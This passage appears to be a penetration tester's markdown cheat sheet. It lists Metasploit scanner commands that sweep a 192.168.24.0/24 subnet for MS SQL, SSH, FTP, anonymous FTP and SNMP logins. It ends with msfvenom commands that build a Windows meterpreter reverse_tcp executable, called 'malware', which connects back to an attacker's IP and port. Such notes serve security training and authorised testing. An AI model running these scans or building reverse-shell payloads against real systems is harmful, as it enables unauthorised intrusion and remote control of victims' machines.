     - Search vulnerable MS SQL Server
      ~~~
      use auxiliary/scanner/mssql/mssql_ping
      set RHOSTS 192.168.24.0/24
      set THREADS 255
      run
      ~~~

    - Search SSH Server
      ~~~
      use auxiliary/scanner/ssh/ssh_version
      set RHOSTS 192.168.24.0/24
      set THREADS 50
      run
      ~~~

    - FTP scan
      ~~~
      use auxiliary/scanner/ftp/ftp_version
      set RHOSTS 192.168.24.0/24
      set THREADS 50
      run
      ~~~
      
      - check available anonymous ftp
        ~~~
        use auxiliary/scanner/ftp/anonymous
        set RHOSTS 192.168.24.0/24
        set THREADS 50
        run
        ~~~

    - SNMP sweep
      ~~~
      use auxiliary/scanner/snmp/snmp_login
      set RHOSTS 192.168.24.0/24
      set THREADS 50
      run
      ~~~
  - Automated
    - Create resource file
      ~~~
      # sample
      version
      load sounds
      ~~~

## msfvenom
  Create malware connect to attacker's machine using reverse_tcp  
  ~~~
  # msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=[my(attacker's) ip addr] LPORT=[my port] -f exe -o malware.exe
  # msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.11.0.96 LPORT=9090 -f exe -o m.exe
  ~~~
